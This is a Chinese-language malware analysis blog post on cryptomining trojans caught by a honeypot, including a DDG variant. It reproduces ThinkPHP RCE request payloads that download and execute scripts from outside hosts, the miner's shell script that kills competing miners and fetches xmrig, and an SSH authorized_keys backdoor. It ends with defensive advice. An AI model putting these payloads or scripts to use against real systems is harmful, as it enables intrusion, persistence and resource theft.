<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">182.254.241.79 - - [03&#x2F;May&#x2F;2019:11:16:18 +0000] &quot;GET &#x2F;index.php?s&#x3D;&#x2F;index&#x2F;\x5Cthink\x5Capp&#x2F;invokefunction&amp;function&#x3D;call_user_func_array&amp;vars[0]&#x3D;shell_exec&amp;vars[1][]&#x3D;wget%20http:&#x2F;&#x2F;81.6.42.123&#x2F;a_thk.sh%20-O%20&#x2F;tmp&#x2F;a;%20chmod%200777%20&#x2F;tmp&#x2F;a;%20&#x2F;tmp&#x2F;a; HTTP&#x2F;1.1&quot; 499 0 &quot;-&quot; &quot;Mozilla&#x2F;5.0 (Windows NT 10.0; Win64; x64) AppleWebKit&#x2F;537.36 (KHTML, like Gecko) Chrome&#x2F;70.0.3538.102 Safari&#x2F;537.36&quot; &quot;-&quot;</span><br><span class="line">182.92.218.221 - - [04&#x2F;May&#x2F;2019:06:44:56 +0000] &quot;GET &#x2F;index.php?s&#x3D;&#x2F;index&#x2F;\x5Cthink\x5Capp&#x2F;invokefunction&amp;function&#x3D;call_user_func_array&amp;vars[0]&#x3D;shell_exec&amp;vars[1][]&#x3D;wget%20http:&#x2F;&#x2F;81.6.42.123&#x2F;a_thk.sh%20-O%20&#x2F;tmp&#x2F;a;%20chmod%200777%20&#x2F;tmp&#x2F;a;%20&#x2F;tmp&#x2F;a; HTTP&#x2F;1.1&quot; 499 0 &quot;-&quot; &quot;Mozilla&#x2F;5.0 (Windows NT 10.0; Win64; x64) AppleWebKit&#x2F;537.36 (KHTML, like Gecko) Chrome&#x2F;70.0.3538.102 Safari&#x2F;537.36&quot; &quot;-&quot;</span><br></pre></td></tr></table></figure>

<p>shell脚本,获取系统相关信息、清除其他挖矿程序进程、加载恶意文件执行挖矿</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line">while true;</span><br><span class="line">do</span><br><span class="line">	crontab -r;</span><br><span class="line">	ps -eo user,pid,time,comm | grep $(&quot;whoami&quot;) | grep -v &#x27;rogue&#x27; | awk &#x27;BEGIN&#123; FS=&quot;:|-&quot;; OFS=&quot;&quot;; &#125; &#123; print $1,$2,$3,$4,$5,$6 &#125;&#x27; | awk &#x27;$3&gt;500&#x27; | awk &#x27;&#123;print $2&#125;&#x27; | xargs -r kill -9</span><br><span class="line">	ps x | grep &#x27;networkservic[e]&#x27; | awk &#x27;&#123;print $1&#125;&#x27; | xargs -r kill -9</span><br><span class="line">	ps x | grep &#x27;sysupdat[e]&#x27; | awk &#x27;&#123;print $1&#125;&#x27; | xargs -r kill -9</span><br><span class="line">	if [ ! -s &quot;/tmp/rogue_s&quot; ]; then</span><br><span class="line">    	wget http://81.6.42.123/xmrig_s -O /tmp/rogue_s; chmod +x /tmp/rogue_s;</span><br><span class="line">	fi</span><br><span class="line">	if [ ! -s &quot;/tmp/rogue_s&quot; ]; then</span><br><span class="line">    	wget http://82.72.134.224/xmrig_s -O /tmp/rogue_s; chmod +x /tmp/rogue_s;</span><br><span class="line">	fi</span><br><span class="line">	if [ &quot;$(ps -eo comm | grep -c &quot;rogu[e]&quot;)&quot; -lt &quot;2&quot; ]; then</span><br><span class="line">		/tmp/rogue_s -r 1000 --donate-level 1 -o 139.224.15.175:26591 -B -p pass -k --max-cpu-usage=99 ;</span><br><span class="line">	fi</span><br><span class="line">	sleep 120;</span><br><span class="line">done</span><br></pre></td></tr></table></figure>
<p>在06-29捕获的最新样本中对该文件进行更新和重命名，更新内容：增加其他挖矿程序、更新服务端</p>

<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">-   ps -eo user,pid,time,comm | grep $(&quot;whoami&quot;) | grep -v &#x27;rogue&#x27; | awk &#x27;BEGIN&#123; FS=&quot;:|-&quot;; OFS=&quot;&quot;; &#125; &#123; print $1,$2,$3,$4,$5,$6 &#125;&#x27; | awk &#x27;$3&gt;500&#x27; | awk &#x27;&#123;print $2&#125;&#x27; | xargs -r kill -9</span><br><span class="line">+	ps x | grep &#x27;rogu[e]&#x27; | awk &#x27;&#123;print $1&#125;&#x27; | xargs -r kill -9</span><br><span class="line">+	ps x | grep &#x27;xmri[g]&#x27; | awk &#x27;&#123;print $1&#125;&#x27; | xargs -r kill -9	</span><br><span class="line">+	killall rogue_s</span><br><span class="line">+	killall xmrig_s	</span><br><span class="line">+	if [ ! -s &quot;/tmp/racks_s&quot; ]; then</span><br><span class="line">+    	wget http://77.192.123.83/racks_s -O /tmp/racks_s; chmod +x /tmp/racks_s;</span><br><span class="line">+	fi</span><br></pre></td></tr></table></figure>

<p>入侵后相关进程为：</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"> [root@b23d372b1e78 /]# ps aux | grep 29963</span><br><span class="line">root      7862  0.0  0.4 103376  2028 pts/0    S+   15:09   0:00 grep 29963</span><br><span class="line">apache   29963 49.6  1.2 455100  6144 ?        Ssl  08:25 200:04 /tmp/racks_s -r 1000 --donate-level 1 -o 121.42.151.137:28850 -B -p pass -k --max-cpu-usage=99</span><br><span class="line">[root@b23d372b1e78 /]# ps aux | grep 29956</span><br><span class="line">root      7868  0.0  0.4 103376  2056 pts/0    S+   15:09   0:00 grep 29956</span><br><span class="line">apache   29956 49.6  1.2 455100  6288 ?        Ssl  08:25 200:30 /tmp/racks_s -r 1000 --donate-level 1 -o 121.42.151.137:28850 -B -p pass -k --max-cpu-usage=99</span><br></pre></td></tr></table></figure>

<h2 id="networkservice"><a href="#networkservice" class="headerlink" title="networkservice"></a>networkservice</h2><p></p>
<ul>
<li>样本 docker: kevinsafs/honeydata:thinkphpMining-netwrokservice</li>
</ul>
<p>该样本为DDG木马最新变种，基于Go 1.10编译、UPX加壳，该样本包含networkservice(漏洞扫描利用模块)\sysguard(c&amp;c通信处理)\syssupdate(挖矿程序)\Update.sh(程序维持脚本)\cinfig.json(配置文件及钱包地址)多个文件。</p>
<p>恶意流量</p>

<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br></pre></td><td class="code"><pre><span class="line">| 33466 | thinkphp | 58.56.9.12 | 34322 | 02-42-1A-03-B9-90 | NULL   | NULL | NULL      | NULL       | GET /index.php?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=1 HTTP/1.1</span><br><span class="line">Host: 45.77.146.50</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6)</span><br><span class="line">Connection: close</span><br><span class="line">Accept-Encoding: gzip</span><br><span class="line"></span><br><span class="line">                                                                                                   | 2019-07-21 08:41:39 |</span><br><span class="line">| 33467 | thinkphp | 58.56.9.12 | 47174 | 02-42-1A-03-B9-90 | NULL   | NULL | NULL      | NULL       | GET /index.php?function=call_user_func_array&amp;s=%2Findex%2F%5Cthink%5Capp%2Finvokefunction&amp;vars%5B0%5D=system&amp;vars%5B1%5D%5B%5D=curl+-fsSL+http%3A%2F%2F185.181.10.234%2FE5DB0E07C3D7BE80V520%2Finit.sh+%7Csh HTTP/1.1</span><br><span class="line">Host: 45.77.146.50</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6)</span><br><span class="line">Connection: close</span><br><span class="line">Accept-Encoding: gzip</span><br><span class="line"></span><br><span class="line"> | 2019-07-21 08:41:39 |</span><br><span class="line">| 33468 | thinkphp | 172.17.0.2 | 55188 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/init.sh HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                       | 2019-07-21 08:41:40 |</span><br><span class="line">| 33469 | thinkphp | 172.17.0.2 | 55192 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/config.json HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                   | 2019-07-21 08:41:40 |</span><br><span class="line">| 33470 | thinkphp | 172.17.0.2 | 55196 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/sysupdate HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                     | 2019-07-21 08:41:41 |</span><br><span class="line">| 33471 | thinkphp | 172.17.0.2 | 55200 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/sysguard HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                      | 2019-07-21 08:41:42 |</span><br><span class="line">| 33472 | thinkphp | 172.17.0.2 | 55204 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/update.sh HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                     | 2019-07-21 08:41:43 |</span><br><span class="line">| 33473 | thinkphp | 172.17.0.2 | 55208 | 02-42-AC-11-00-02 | NULL   | NULL | NULL      | NULL       | GET /E5DB0E07C3D7BE80V520/networkservice HTTP/1.1</span><br><span class="line">User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.27.1 zlib/1.2.3 libidn/1.18 libssh2/1.4.2</span><br><span class="line">Host: 185.181.10.234</span><br><span class="line">Accept: */*</span><br><span class="line"></span><br><span class="line">                                                                                                                                                                                | 2019-07-21 08:41:43 |</span><br><span class="line">+-------+--</span><br></pre></td></tr></table></figure>

<p>且该木马会写入authorized_keys实现免密码登录</p>

<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">fi</span><br><span class="line">        chmod 700 /root/.ssh/</span><br><span class="line">        echo &gt;&gt; /root/.ssh/authorized_keys</span><br><span class="line">        chmod 600 root/.ssh/authorized_keys</span><br><span class="line">        echo &quot;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17&quot; &gt;&gt; /root/.ssh/authorized_keys</span><br><span class="line">        </span><br><span class="line">	</span><br><span class="line">        cfg=&quot;/etc/config.json&quot;</span><br><span class="line">        file=&quot;/etc/sysupdate&quot;</span><br></pre></td></tr></table></figure>

<p>我们重点关注其横向移动、漏扫利用模块networkservice<br>该模块主要包含函数及程序涉及的基础库为<br><br>可以看到主要涉及ip处理、端口识别、扫描处理等相关函数<br>在main_main流程图中可以发现其程序横向移动、扫描ip地址由c&amp;c下发，url为：<a href="https://pixeldra.in/api/download/I9RRye" target="_blank" rel="noopener">https://pixeldra.in/api/download/I9RRye</a><br><br>从main_scan及扫描主函数流程图可发现该模块包含十余漏洞利用，例如redis、drupal、thinkphp等<br><br>我们跟进其处理thinkphp_rce漏洞逻辑</p>
<ul>
<li>加载目标ip、port</li>
<li>判断目标web应用是否为Thinkphp</li>
<li>组装thinkphp_5 rce 利用exp</li>
<li>判断exp是否利用成功，否，则继续组装thinkphp_5.2 利用exp</li>
<li>利用成功，c&amp;c加载恶意文件并进行后渗透处理</li>
</ul>
<p><br>thinkphp_5 rce 利用exp 为<br><br>thinkphp_5.2 利用exp 为<br></p>
<h2 id="安全建议"><a href="#安全建议" class="headerlink" title="安全建议"></a>安全建议</h2><ul>
<li>基于networkservice横向移动模块分析后可以发现现在挖矿程序不仅仅依赖于web应用，其利用恶意exp愈发全面。对此，需要修复相关漏洞、对redis等系统设置强权限控制；</li>
<li>服务器定时任务清理、权限、iptables等相关加固方案；</li>
</ul>
<h2 id="入侵排查"><a href="#入侵排查" class="headerlink" title="入侵排查"></a>入侵排查</h2><p>部分常见命令</p>
<ul>
<li>netstat -antlp</li>
<li>ps aux | grep pid</li>
隐藏进程  

<pre><code><figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">ps -ef | awk &#x27;&#123;print&#125;&#x27; | sort -n | uniq &gt;1</span><br><span class="line">ls /proc | sort -n |uniq &gt;2</span><br><span class="line">diff 1 2</span><br></pre></td></tr></table></figure></code></pre>
<li>72小时新增文件<code>find / -ctime -2</code></li>
<li>文件时间信息 <code>stat</code></li>
<li>敏感目录下文件如：<code>ls -alt /tmp/</code></li>
<li>定时任务 <code>crontabl –l</code></li>
<li>历史命令 <code>history</code> <code>cat ~/.bash_history</code></li>
<li>命令是否被篡改 <code>alias ls</code></li>
</ul></div><div class="tags"><a href="/tags/%E8%9C%9C%E7%BD%90/"><i class="fa fa-tag"></i>蜜罐</a><a href="/tags/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F/"><i class="fa fa-tag"></i>恶意挖矿程序</a><a href="/tags/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/"><i class="fa fa-tag"></i>漏洞利用</a></div><div class="post-nav"><a class="pre" href="/2020/04/19/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%9C%BA%E6%99%AF%E4%B8%8BATT-CK%E5%AE%9E%E8%B7%B5/">恶意挖矿程序场景下ATT-CK实践</a></div></div></div></div><div class="pure-u-1-4 hidden_mid_and_down"><div id="sidebar"><div class="widget"><form class="search-form" action="//www.google.com/search" method="get" accept-charset="utf-8" target="_blank"><input type="text" name="q" maxlength="20" placeholder="Search"/><input type="hidden" name="sitesearch" value="http://example.com"/></form></div><div class="widget"><div class="widget-title"><i class="fa fa-folder-o"> Categories</i></div><ul class="category-list"><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/">CTF</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Golang/">Golang</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Grpc/">Grpc</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/hash/">hash</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E4%BE%9B%E5%BA%94%E9%93%BE%E5%AE%89%E5%85%A8/">供应链安全</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E5%8F%AF%E6%A3%80%E7%B4%A2%E5%8A%A0%E5%AF%86/">可检索加密</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E5%AE%89%E5%85%A8%E5%BC%80%E5%8F%91/">安全开发</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E6%81%B6%E6%84%8FChrome%E6%8F%92%E4%BB%B6/">恶意Chrome插件</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/">漏洞分析</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E8%9C%9C%E7%BD%90/">蜜罐</a></li></ul></div><div class="widget"><div class="widget-title"><i class="fa fa-star-o"> Tags</i></div><div class="tagcloud"><a href="/tags/%E8%9C%9C%E7%BD%90/" style="font-size: 15px;">蜜罐</a> <a href="/tags/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F/" style="font-size: 15px;">恶意挖矿程序</a> <a href="/tags/CTF/" style="font-size: 15px;">CTF</a> <a href="/tags/Golang/" style="font-size: 15px;">Golang</a> <a href="/tags/SpEL/" style="font-size: 15px;">SpEL</a> <a href="/tags/%E7%B3%BB%E7%BB%9F%E6%9E%B6%E6%9E%84/" style="font-size: 15px;">系统架构</a> <a href="/tags/%E4%BE%9B%E5%BA%94%E9%93%BE%E5%AE%89%E5%85%A8/" style="font-size: 15px;">供应链安全</a> <a href="/tags/Python/" style="font-size: 15px;">Python</a> <a href="/tags/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/" style="font-size: 15px;">漏洞利用</a> <a href="/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/" style="font-size: 15px;">漏洞分析</a> <a href="/tags/SaltStack/" style="font-size: 15px;">SaltStack</a> <a href="/tags/CVE/" style="font-size: 15px;">CVE</a> <a href="/tags/shiro/" style="font-size: 15px;">shiro</a> <a href="/tags/gorm/" style="font-size: 15px;">gorm</a> <a href="/tags/XXE/" style="font-size: 15px;">XXE</a> <a href="/tags/Nexus/" style="font-size: 15px;">Nexus</a> <a href="/tags/RCE/" style="font-size: 15px;">RCE</a> <a href="/tags/validtor/" style="font-size: 15px;">validtor</a> <a href="/tags/Grpc/" style="font-size: 15px;">Grpc</a> <a href="/tags/%E6%81%B6%E6%84%8FChrome%E6%8F%92%E4%BB%B6/" style="font-size: 15px;">恶意Chrome插件</a> <a href="/tags/CSP/" style="font-size: 15px;">CSP</a> <a href="/tags/%E5%8A%A0%E5%AF%86/" style="font-size: 15px;">加密</a> <a href="/tags/hash/" style="font-size: 15px;">hash</a> <a href="/tags/%E5%8F%AF%E6%A3%80%E7%B4%A2%E5%8A%A0%E5%AF%86/" style="font-size: 15px;">可检索加密</a> <a href="/tags/apisix/" style="font-size: 15px;">apisix</a> <a href="/tags/log4j2/" style="font-size: 15px;">log4j2</a> <a href="/tags/sca%E3%80%81%E5%9B%BE%E6%95%B0%E6%8D%AE%E5%BA%93%E3%80%81nebula/" style="font-size: 15px;">sca、图数据库、nebula</a></div></div><div class="widget"><div class="widget-title"><i class="fa fa-file-o"> Recent</i></div><ul class="post-list"><li class="post-list-item"><a class="post-list-link" href="/2021/12/22/log4j2-%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%A4%84%E7%BD%AE%E5%A4%8D%E7%9B%98/">log4j2-漏洞及处置复盘</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/12/18/log4j2-CVE-2021-45046/">log4j2_CVE-2021-45046</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/12/18/sca-JAVA%E4%B8%89%E6%96%B9%E7%BB%84%E5%BB%BA%E4%BE%9D%E8%B5%96%E5%88%86%E6%9E%90/">JAVA三方组建依赖分析</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/11/28/nginx%E4%B8%8Brequest-uri%E7%9A%84normalized%E9%97%AE%E9%A2%98/">nginx下request_uri的normalized问题</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/09/12/%E5%8F%AF%E6%A3%80%E7%B4%A2%E5%8A%A0%E5%AF%86%E6%96%B9%E6%A1%88/">可检索加密方案</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/09/12/%E7%9F%ADHash%E7%AE%97%E6%B3%95%E6%96%B9%E6%A1%88/">短Hash算法方案</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/06/02/%E6%81%B6%E6%84%8FChrome%E6%8F%92%E4%BB%B6%E7%BB%95%E8%BF%87CSP/">恶意Chrome插件绕过CSP</a></li><li class="post-list-item"><a class="post-list-link" href="/2021/05/20/%E5%88%A9%E7%94%A8Grpc%E5%8F%8D%E5%B0%84%E5%81%9A%E6%BC%8F%E6%89%AB/">利用Grpc反射做漏扫</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/12/22/Nexus-Repository-Manager3-XXE/">Nexus Repository Manager3 XXE</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/09/12/DDCTF-2020WEB%E5%87%BA%E9%A2%98%E8%AE%B0%E5%BD%95/">DDCTF-2020WEB出题记录</a></li></ul></div><div class="widget"><div class="widget-title"><i class="fa fa-external-link"> Links</i></div></div></div></div><div class="pure-u-1 pure-u-md-3-4"><div id="footer">Copyright © 2022 <a href="/." rel="nofollow">Kevinsa.</a> Powered by<a rel="nofollow" target="_blank" href="https://hexo.io"> Hexo.</a><a rel="nofollow" target="_blank" href="https://github.com/tufu9441/maupassant-hexo"> Theme</a> by<a rel="nofollow" target="_blank" href="https://github.com/pagecho"> Cho.</a></div></div></div><a class="show" id="rocket" href="#top"></a><script type="text/javascript" src="/js/totop.js?v=0.0.0" async></script><script type="text/javascript" src="//cdn.jsdelivr.net/gh/fancyapps/fancybox/dist/jquery.fancybox.min.js" async></script><script type="text/javascript" src="/js/fancybox.js?v=0.0.0" async></script><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/gh/fancyapps/fancybox/dist/jquery.fancybox.min.css"><script type="text/javascript" src="/js/copycode.js" successtext="Copy Successed!"></script><link rel="stylesheet" type="text/css" href="/css/copycode.css"><script type="text/javascript" src="/js/codeblock-resizer.js?v=0.0.0"></script><script type="text/javascript" src="/js/smartresize.js?v=0.0.0"></script></div></body></html>